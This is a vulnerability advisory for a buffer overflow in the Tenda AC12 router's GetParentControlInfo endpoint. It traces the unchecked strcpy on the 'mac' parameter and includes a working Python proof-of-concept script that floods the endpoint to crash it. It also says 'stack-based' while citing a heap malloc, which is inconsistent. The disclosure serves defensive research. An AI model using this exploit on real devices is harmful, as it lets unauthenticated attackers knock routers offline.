 # Stack-Based Buffer Overflow in Tenda Wi-Fi 5 Router AC1206 (AC1206V1.0RTL_V15.03.06.23)
## Overview
A stack-based buffer overflow vulnerability exists in the Tenda Wi-Fi 5 Router AC12 device running firmware version AC1206V1.0RTL_V15.03.06.23. Due to the lack of restrictions on certain parameters and the absence of boundary checks in the `GetParentControlInfo` function, a stack overflow may occur. Unauthenticated remote attackers can execute a Denial of Service (DoS) attack through parameters in this endpoint.`/goform/GetParentControlInfo``initWebs``formDefineTendDa`

## Vulnerability Details
+ **Vendor**: Shenzhen Jixiang Tenda Technology Co., Ltd.
+ **Vulnerability Type**: Stack-Based Buffer Overflow (CWE-121)
+ **Affected Product**: Tenda Wi-Fi 5 Router AC12 Device
+ **Affected Version**: AC1206V1.0RTL_V15.03.06.23
+ **Attack Vector**: Exploiting carefully crafted payloads to cause a stack-based buffer overflow via functions with no boundary checks and insufficient parameter restrictions
+ **Impact**:
    - Denial of Service (DoS)
+ **Affected Component**: `/goform/GetParentControlInfo`, `initWebs`, `formDefineTendDa`
+ **CVE ID**: Pending (CVE application in progress)
+ **Discovered by**: xxricardoxkk (xxricardoxkk@gmail.com)
+ **Firmware**: [https://www.tenda.com.cn/material/show/2766](https://www.tenda.com.cn/material/show/2766)

## Discovery
The vulnerability was discovered by analyzing the firmware (US_AC1206V1.0RTL_V15.03.06.23_multi_TD01.bin). The following call chain exists in the `squashfs-root/bin/httpd` file:  
`main → initWebs → formDefineTendDa → GetParentControlInfo`

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC12/image/%E8%B0%83%E7%94%A8%E9%93%BE4.png)
![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC12/image/%E8%B0%83%E7%94%A8%E9%93%BE3.png)
![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC12/image/%E8%B0%83%E7%94%A8%E9%93%BE2.png)
![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC12/image/formdefinetenda.png)
![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC12/image/%E8%B0%83%E7%94%A8%E9%93%BE1.png)

The program retrieves the user input parameter "mac". The `strcpy` function in the figure below copies content from `mac_addr` to `pc_info->mac_addr` without checking the size of the target buffer. `pc_info = (parent_control_info *)malloc(0x254u);` where 0x254 is 596 bytes. If the length of `mac_addr` exceeds the buffer of `pc_info->mac_addr`, an overflow will occur.

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC12/image/%E6%BA%A2%E5%87%BA%E7%82%B9.png)

Therefore, a carefully designed payload at the interface path `/goform/GetParentControlInfo` can cause a buffer overflow.

## Steps to Reproduce
Construct the following payload using Python:

```python
import requests

# Construct overflow payload
def create_payload():
    buffer_size = 51200
    payload = b"A" * buffer_size
    v11_value = b"\xef\xbe\xad\xde"
    payload += v11_value
    return payload

# Construct and send HTTP request
def send_payload(url, payload):
    params = {'mac': payload}
    response = requests.get(url, params=params)
    response = requests.get(url, params=params)
    print("Response status code:", response.status_code)
    print("Response body:", response.text)

if __name__ == "__main__":
    # Target URL
    url = "http://192.168.31.12/goform/GetParentControlInfo"
    # Create malicious payload
    payload = create_payload()
    # Send malicious request
    send_payload(url, payload)
```

Use QEMU to emulate the `httpd` extracted from `US_AC1206V1.0RTL_V15.03.06.23_multi_TD01.bin` (note that this file is for the MIPS little-endian architecture, and IDA needs to be used to modify `httpd` to adapt to the emulation environment).

As shown in the figure below, the emulation is successful.

Use this script to trigger the stack overflow.

## Impact
Unauthenticated remote attackers can execute a Denial of Service (DoS) attack through parameters in this endpoint.

